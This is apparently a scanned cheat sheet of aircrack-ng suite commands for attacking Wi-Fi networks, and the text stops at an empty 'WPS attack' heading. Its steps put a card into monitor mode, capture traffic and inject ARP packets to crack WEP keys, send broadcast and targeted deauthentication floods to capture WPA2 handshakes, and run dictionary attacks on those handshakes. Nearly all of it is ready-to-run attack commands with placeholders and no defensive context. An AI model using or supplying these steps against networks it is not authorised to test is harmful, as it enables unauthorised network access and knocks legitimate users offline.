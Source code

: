 
Code:
ifconfig <interface> down
iwconfig <interface> mode monitor
ifconfig <interface> up


OR

Code:
airmon-ng start <interface>


Cracking WEP

1. Writing capture to file

Code:
airodump-ng --bssid <bssid> -c <channel> -w <filename> <interface>


2. Injecting ARP traffic


Code:
aireplay-ng -3 -b <bssid> -h <MACaddressCLIENT> <interface>


3. Start cracking!


Code:
aircrack-ng <filename>.cap


Cracking WPA2

Dictionary attack

1. Writing capture to file

Code:
airodump-ng --bssid <bssid> -c <channel> -w <filename> <interface>


2. Deauthenticate client for handshake

Broadcasting deauth:

Code:
sudo aireplay-ng --deauth 100 -a <bssid> <interface>


Targeted deauth:

Code:
sudo aireplay-ng --deauth 100 -a <bssid> -c <MACaddressCLIENT> <interface>


3. Start cracking!

Code:
aircrack-ng -w <dictionary> -b <bssid> <filename>.cap


WPS attack
